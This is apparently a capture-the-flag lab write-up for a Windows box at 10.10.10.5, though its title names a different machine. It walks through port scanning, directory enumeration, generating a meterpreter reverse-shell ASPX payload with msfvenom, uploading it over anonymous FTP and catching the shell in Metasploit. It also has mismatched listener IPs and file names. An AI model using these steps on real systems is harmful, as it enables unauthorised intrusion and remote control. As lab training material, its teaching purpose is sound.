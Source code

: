 # ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7abcf759-4f4f-4679-b5c1-7e5ce3671200)

![image](https://github.com/lufffe/Writeups/assets/90646635/09d83a51-bc6b-4b67-a279-44d602d5290d)

```bash
nmap -A -p 21,80 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0c973612-4857-4dbb-b4e6-ad240c9a39b0)

```bash
gobuster dir -u http://10.10.10.5/ -w big.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f9323095-544c-4411-8a8f-5733a4a29053)


![image](https://github.com/lufffe/Writeups/assets/90646635/c0f558b2-38e6-435e-8355-51a3c13e532f)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 -f aspx > shell2.aspx
```

![image](https://github.com/lufffe/Writeups/assets/90646635/264d53f9-d60e-4164-b1a5-42763cedcb04)

```bash
ftp 10.10.10.5
```

```bash
ftp> put shell2.aspx
```
![image](https://github.com/lufffe/Writeups/assets/90646635/667ee882-e64d-4dbd-9239-2471bccf2242)

```bash
msfconsole
```

```bash
search multi/handler
```

```bash
msf6 exploit(multi/handler) > set lhost 10.10.14.16
```

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```bash
msf6 exploit(multi/handler) > exploit
```

[http://10.10.10.5/shell.aspx](http://10.10.10.5/luf3.aspx)

![image](https://github.com/lufffe/Writeups/assets/90646635/846d277d-55d7-4b38-86c9-f0829e8e0bcc)

```bash
meterpreter > shell
```

```bash
c:\windows\system32\inetsrv>systeminfo
```
![image](https://github.com/lufffe/Writeups/assets/90646635/84f6b6be-d526-4da0-b224-5c0d62f53360)

```bash
c:\Users>exit
```

```bash
meterpreter > background
```

![image](https://github.com/lufffe/Writeups/assets/90646635/85d9be9c-bcd3-49dd-a7d0-c6cd66fefe8d)

